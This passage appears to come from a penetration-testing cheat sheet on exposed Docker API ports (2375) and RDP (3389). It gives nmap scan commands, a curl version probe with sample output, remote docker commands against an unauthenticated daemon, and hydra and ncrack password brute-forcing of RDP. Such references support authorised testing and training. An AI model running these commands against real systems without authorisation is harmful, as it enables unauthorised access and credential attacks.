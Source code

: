 Default docker port

#### Nmap 
```
nmap -sV -p 2375 10.0.0.1
```

#### Detect version 
```
curl http://10.0.0.1:2375/version

{
  "Platform": {
    "Name": "Docker Engine - Community"
  },
  "Components": [
    {
      "Name": "Engine",
      "Version": "20.10.20",
      "Details": {
        "ApiVersion": "1.41",
        "Arch": "amd64",
        "BuildTime": "2022-10-18T18:18:12.000000000+00:00",
        "Experimental": "false",
        "GitCommit": "03df974",
        "GoVersion": "go1.18.7",
        "KernelVersion": "5.15.0-1022-aws",
        "MinAPIVersion": "1.12",
        "Os": "linux"
      }]
}
```

#### Exploit
```
# To test if we can run commands, we'll list the containers on the target
docker -H tcp://10.0.0.1:2375 ps
```


## 🔻Port 3389

#### Nmap - Scan vuln
```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 10.0.0.1
```
#### Bruteforce 
```
hydra -L user.txt -P pass.txt 10.0.0.1 rdp
ncrack -vv --user administrator -P passwords.txt rdp://10.0.0.1,CL=1
```
#### Remote Desktop
```
rdesktop 10.0.0.1
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
```
